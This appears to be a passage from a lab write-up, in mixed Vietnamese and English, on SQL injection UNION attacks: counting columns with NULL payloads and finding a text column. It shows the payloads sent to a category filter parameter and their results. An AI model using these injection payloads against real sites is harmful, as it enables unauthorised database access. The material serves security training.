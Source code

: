 With index = 4,
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/S1Q9YlIjn.png)

**Method 2:**
Gửi một loạt các payload chỉ định số lượng `NULL` khác nhau.

```js
/filter?category=Toys & Games' union select null--
=> return False

/filter?category=Toys & Games' union select null, null--
=> return False


/filter?category=Toys & Games' union select null, null, null--
=> reutrn True

This is because one of the two main conditions for SQLi attack using UNION is that the number of columns of each individual query must be equal, adding `null` means we are detecting if the number of columns is equal to What was the previous query?

```

=> Therefore, it seems that method 1 is the opposite of method 2.

## Lab: SQL injection UNION attack, finding a column containing text
### Description
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/ByLMlNLsn.png)

### Solution

Request: `Make the database retrieve the string: 'Ka3hVz'`

For this challenge we continue to exploit sql injection at the `/filter?category=Gifts` weakness.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-learn/Learn-2021-05-10-Learn-SQL-injection/BywuG4Iin.png)

now we need to apply the method of determining the number of columns number 2.

`/filter?category=Gifts' union select null, null, null--`

I determined the column to be exactly 3. Now I'm going to make the database print the requested string with payload.

```js
`/filter?category=Gifts' union select 'Ka3hVz', null, null--`
=> return False


`/filter?category=Gifts' union select null, 'Ka3hVz', null--`
=> return True

`/filter?category=Gifts' union select null, null, 'Ka3hVz'--`

```
